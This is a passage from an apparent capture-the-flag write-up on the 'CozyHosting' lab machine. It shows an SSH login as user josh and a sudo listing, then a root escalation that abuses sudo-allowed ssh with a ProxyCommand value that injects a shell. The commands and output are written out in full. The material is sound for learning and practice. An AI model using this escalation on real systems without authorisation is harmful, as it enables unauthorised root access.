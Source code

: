 ```
d[...]a
```
## Privilege escalation
We can now log directly to `josh` session using SSH. That way, we can have a better shell allowing, for instance, the use of `Ctrl+C` to stop a process:
```
$ssh josh@10.129.41.158
The authenticity of host '10.129.41.158 (10.129.41.158)' can't be established.
ED25519 key fingerprint is SHA256:x/7yQ53dizlhq7THoanU79X7U63DSQqSi39NPLqRKHM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.41.158' (ED25519) to the list of known hosts.
josh@10.129.41.158's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Mar 17 10:51:32 AM UTC 2024

  System load:           0.09521484375
  Usage of /:            51.7% of 5.42GB
  Memory usage:          11%
  Swap usage:            0%
  Processes:             264
  Users logged in:       0
  IPv4 address for eth0: 10.129.41.158
  IPv6 address for eth0: dead:beef::250:56ff:fe94:3a94


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 29 09:03:34 2023 from 10.10.14.41
josh@cozyhosting:~$ 
```
I started to look at the commands that the user can run with `sudo`:
```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
He can run any `ssh` commands as a root. Looking at [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/), it appears that this can be used to get a root shell:
```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# ls /root
root.txt
# cat /root/root.txt
```